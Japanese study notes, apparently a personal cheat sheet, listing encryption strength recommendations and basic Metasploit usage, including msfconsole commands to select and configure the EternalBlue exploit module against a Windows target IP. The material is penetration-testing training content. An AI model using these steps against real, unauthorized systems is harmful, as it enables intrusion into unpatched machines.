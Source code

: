 ## 暗号化の推奨要件

- 非対称暗号化: RSA-3072以上
- 対称暗号化: AES-256以上
- 近い将来、量子コンピュータによりRSAや楕円曲線暗号は高速に破られる

## Metasploit

### Metasploitの主要バージョン

- Metasploit Pro: 商用。GUI
- Metasploit Framework: CLI。OSS
  - msfconsole
  - Modules
  - Tools

### Metasploitの主要コンポーネント

- Exploit: 脆弱性を突くコード
- Vulnerability: 脆弱性
- Payload: ターゲットシステムで実行されるコード

### Msfconsole

```bash
msfconsole

# EternalBlue（Windows用Exploit）
use exploit/windows/smb/ms17_010_eternalblue
# 使用中のコンテキストのオプションを表示
show options
# ペイロードリスト
show payloads

# コンテキストを抜ける
back

# コンテキストのモジュール詳細表示
info
# モジュールを指定して詳細表示
info exploit/windows/smb/ms17_010_eternalblue

# 関連モジュールを検索
search ms17-010
# 補助モジュールのみを検索
search type:auxiliary telnet
```

### Windows攻略例

```bash
use exploit/windows/smb/ms17_010_eternalblue
# 使用可能オプション確認
show options
set rhosts [target IP]
# Setされたか確認
show options
# Setしたオプションをクリア
unset rhosts # 指定
unset all # すべて

# グローバル設定（setg）：Metasploit終了 or ensetgでクリアするまで保持
setg rhosts [target IP]

```